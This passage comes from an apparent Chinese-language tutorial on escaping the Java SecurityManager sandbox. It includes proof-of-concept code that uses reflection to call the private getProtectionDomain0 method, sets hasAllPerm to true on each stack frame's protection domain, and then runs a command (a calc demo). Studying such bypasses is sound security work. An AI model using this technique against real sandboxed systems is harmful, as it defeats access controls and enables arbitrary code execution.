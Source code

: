 运行一下，又抛出了异常

```
java.security.AccessControlException: access denied ("java.lang.RuntimePermission" "getProtectionDomain")
    at java.security.AccessControlContext.checkPermission(AccessControlContext.java:472)
    at java.security.AccessController.checkPermission(AccessController.java:884)
    at java.lang.SecurityManager.checkPermission(SecurityManager.java:549)
    at java.lang.Class.getProtectionDomain(Class.java:2299)
    at evil.Poc.setHasAllPerm(Poc.java:43)
    at evil.Poc.main(Poc.java:19)

```

没有getProtectionDomain的权限。我们看看getProtectionDomain的实现：

```
public java.security.ProtectionDomain getProtectionDomain() `{`
        SecurityManager sm = System.getSecurityManager();
        if (sm != null) `{`
            //在这里检查权限
            sm.checkPermission(SecurityConstants.GET_PD_PERMISSION);
        `}`
        //调用native方法获取ProtectionDomain
        java.security.ProtectionDomain pd = getProtectionDomain0();
        if (pd == null) `{`
            if (allPermDomain == null) `{`
                java.security.Permissions perms =
                    new java.security.Permissions();
                perms.add(SecurityConstants.ALL_PERMISSION);
                allPermDomain =
                    new java.security.ProtectionDomain(null, perms);
            `}`
            pd = allPermDomain;
        `}`
        return pd;
    `}`

    private native java.security.ProtectionDomain getProtectionDomain0();
```

getProtectionDomain方法中，先检查了权限，然后再调用私有的原生方法getProtectionDomain0来完成getProtectionDomain。那么我们完全可以通过反射直接运行getProtectionDomain0方法，从而绕过对getProtectionDomain方法的权限检查。代码如下：

```
public static void setHasAllPerm0()`{`
        StackTraceElement[] stackTraceElements = Thread.currentThread().getStackTrace();
        //遍历栈帧
        for (StackTraceElement stackTraceElement : stackTraceElements) `{`
            try `{`
                Class clz=Class.forName(stackTraceElement.getClassName());
                //利用反射调用getProtectionDomain0方法
                Method getProtectionDomain=clz.getClass().getDeclaredMethod("getProtectionDomain0",null);
                getProtectionDomain.setAccessible(true);
                ProtectionDomain pd=(ProtectionDomain) getProtectionDomain.invoke(clz);

                if(pd!=null)`{`
                    Field field=pd.getClass().getDeclaredField("hasAllPerm");
                    field.setAccessible(true);
                    field.set(pd,true);
                `}`
            `}`catch (Exception e)`{`
                e.printStackTrace();
            `}`
        `}`
        exec("calc");
```